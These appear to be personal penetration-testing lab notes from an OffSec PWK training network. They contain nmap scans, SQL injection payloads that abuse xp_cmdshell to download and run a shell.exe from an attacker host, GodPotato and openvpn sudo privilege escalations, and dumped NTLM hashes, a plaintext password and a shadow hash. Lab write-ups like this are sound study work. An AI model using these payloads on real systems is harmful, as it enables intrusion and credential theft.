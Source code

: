 # VM 3
- WEB01
- ```
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 84:72:7e:4c:bb:ff:86:ae:b0:03:00:79:a1:c5:af:34 (RSA)
    |   256 f1:31:e5:75:31:36:a2:59:f3:12:1b:58:b4:bb:dc:0f (ECDSA)
    |_  256 5a:05:9c:fc:2f:7b:7e:0b:81:a6:20:48:5a:1d:82:7e (ED25519)
    80/tcp open  http    WEBrick httpd 1.6.1 (Ruby 2.7.4 (2021-07-07))
    |_http-title: PAW! (PWK Awesome Website)
    |_http-server-header: WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
## Foothold


# VM 4 (pwned)
- Web02
- Microsoft Windows Server 2022 Standard
- 10.0.20348 N/A Build 20348

## FootHold
- Ez SQLi
    ``` 
    ';EXEC master.dbo.xp_cmdshell 'ping 192.168.45.219';--
    ';EXEC master.dbo.xp_cmdshell 'certutil -urlcache -split -f http://192.168.45.201/shell.exe C:\\Windows\temp\shell.exe';--
    ';EXEC master.dbo.xp_cmdshell 'cmd /c C:\\Windows\\temp\\shell.exe';--
    ```
## Root 
- SeImpersonate Permission Found & NET4.0 -> GodPotato
  ```
    iwr -uri http://192.168.45.155/GodPotato-NET4.exe -Outfile GodPotato-NET4.exe
    .\GodPotato-NET4.exe -cmd 'whoami'
    .\GodPotato-NET4.exe -cmd 'C:\Windows\temp\shell.exe'
   ```
- Interesting Info
    1. ``` 
            Version: NetNTLMv2
            Hash:    WEB02$::MEDTECH:1122334455667788:757d0de376d8456d510a56bbc91d2ab2:0101000000000000229fe7efdce0da013a25e15c16fb223a000000000800300030000000000000000000000000300000d8c929a18f8306528b604ac0f3f091c5301c8c3d9d4689b5c867902e15f0f4230a00100000000000000000000000000000000000090000000000000000000000
      ```
    2. Joe 
      ```
        Authentication Id : 0 ; 283886 (00000000:000454ee)
        Session           : Service from 0
        User Name         : joe
        Domain            : MEDTECH
        Logon Server      : DC01
        Logon Time        : 4/8/2024 12:06:58 PM
        SID               : S-1-5-21-976142013-3766213998-138799841-1106
                msv :
                [00000003] Primary
                * Username : joe
                * Domain   : MEDTECH
                * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
                * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
                * DPAPI    : 58de53296298ce0f98087ae902c88735
                tspkg :
                wdigest :
                * Username : joe
                * Domain   : MEDTECH
                * Password : (null)
                kerberos :
                * Username : joe
                * Domain   : MEDTECH.COM
                * Password : Flowers1
                ssp :
                credman :
                cloudap :
        ```

# VM 5 (pwned)
- VPN
- ```
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
    |_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
    1194/tcp open  openvpn?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
## Foothold
```
    ssh offsec@192.168.244.122
    password
```

## Root?
- Get runable sudo in ``` history ``` LOLL...
- ```
    sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
  ```

## Interesting Info
  ```
  mario:$y$j9T$WlF.5NfkOQ2xN4K9OPM2e1$X/wrPHU0zaz.dGUjFQGLj5nbrTfNpy0Hm6Xev04aUw8:19268:0:99999:7:::
  ```